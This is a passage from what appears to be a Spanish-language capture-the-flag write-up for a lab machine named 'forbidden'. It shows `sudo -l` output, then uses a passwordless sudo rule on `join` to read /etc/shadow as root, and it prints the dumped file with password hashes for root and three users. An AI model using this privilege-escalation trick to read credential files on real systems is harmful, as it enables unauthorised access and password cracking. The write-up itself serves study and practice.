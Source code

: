 Con el usuario `markos` veremos que no podemos hacer gran cosa, si volvemos al usuario `marta` y hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for marta on forbidden:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User marta may run the following commands on forbidden:
    (ALL : ALL) NOPASSWD: /usr/bin/join
```

Veremos que podemos ejecutar el binario `join` como el usuario `root`, por lo que haremos lo siguiente:

```shell
LFILE=/etc/shadow
sudo join -a 2 /dev/null $LFILE
```

Info:

```
root:$6$8nU2FdqnxRtT9mWF$9q7El.D7BDrlzNyYYPNqjTcwsQEsC7utrzszLgbe9V.3KqYSfx2XgqjIEeToP41TJTiZQOGVsdCzIAYHw5O.51:18544:0:99999:7:::
daemon:*:18544:0:99999:7:::
bin:*:18544:0:99999:7:::
sys:*:18544:0:99999:7:::
sync:*:18544:0:99999:7:::
games:*:18544:0:99999:7:::
man:*:18544:0:99999:7:::
lp:*:18544:0:99999:7:::
mail:*:18544:0:99999:7:::
news:*:18544:0:99999:7:::
uucp:*:18544:0:99999:7:::
proxy:*:18544:0:99999:7:::
www-data:*:18544:0:99999:7:::
backup:*:18544:0:99999:7:::
list:*:18544:0:99999:7:::
irc:*:18544:0:99999:7:::
gnats:*:18544:0:99999:7:::
nobody:*:18544:0:99999:7:::
_apt:*:18544:0:99999:7:::
systemd-timesync:*:18544:0:99999:7:::
systemd-network:*:18544:0:99999:7:::
systemd-resolve:*:18544:0:99999:7:::
messagebus:*:18544:0:99999:7:::
marta:$6$h.4ZF5esZ/N1OIcu$8vL1D3iM6iuhniSG8nIz0582atbIV6y/UBl0eks1.Wrd51BqLK8Wqt91WXg0Y2mrdNY4luPQkqUWXFXWxLVwe/:18544:0:99999:7:::
systemd-coredump:!!:18544::::::
ftp:*:18544:0:99999:7:::
sshd:*:18544:0:99999:7:::
markos:$6$PTerrFpyfOmkM5Xi$oo8gNZyyxsZbKhOIXrm2w/x.Xvhdr7Ny/4JgLDRLRAxAwEwGtH2kD7PjzeloAstqCPq/KKrqrPioMM8vwWbqZ.:18544:0:99999:7:::
peter:$6$QAeWH9Et9PAJdYz/$/4VhburW9KoVTRY1Ry63wNEfr4rxwQGaRJ3kKW2nEAk0LcqjqZjy/m5rtaCi3VebNu7AaGFhQT4FBgbQVIyq81:18544:0:99999:7:::
```
